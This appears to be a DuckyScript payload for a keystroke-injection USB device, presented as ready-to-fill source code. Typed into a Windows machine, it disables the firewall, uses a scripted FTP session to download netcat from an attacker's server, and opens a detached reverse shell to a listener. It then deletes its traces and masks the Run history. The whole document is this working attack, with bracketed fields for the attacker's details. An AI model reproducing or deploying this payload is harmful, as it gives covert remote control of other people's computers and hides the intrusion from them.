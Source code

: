 This script will:
* create an FTP script that logs you in to the FTP server and download netcat
* delete the FTP script file
* run netcat in daemon mode
* run cmd.exe one more time to conceal the command we used in the run history.

Fill in the required information where you see the brackets.

DELAY 10000
GUI R
DELAY 200
STRING cmd
ENTER
DELAY 600
STRING cd %USERPROFILE%
ENTER
DELAY 100
STRING netsh firewall set opmode disable
ENTER
DELAY 2000
STRING echo open [FTP SERVER IP] [FTP PORT] > ftp.txt
ENTER
DELAY 100
STRING echo [USERNAME]>> ftp.txt
ENTER
DELAY 100
STRING echo [PASSWORD]>> ftp.txt
ENTER
DELAY 100
STRING echo bin >> ftp.txt
ENTER
DELAY 100
STRING echo get nc.exe >> ftp.txt
ENTER
DELAY 100
STRING echo bye >> ftp.txt
ENTER
DELAY 100
STRING ftp -s:ftp.txt
ENTER
STRING del ftp.txt & exit
ENTER
DELAY 2000
GUI R
DELAY 200
STRING nc.exe [LISTENER IP] [LISTENER PORT] -e cmd.exe -d
ENTER
DELAY 2000
GUI R
DELAY 200
STRING cmd
ENTER
DELAY 600
STRING exit
ENTER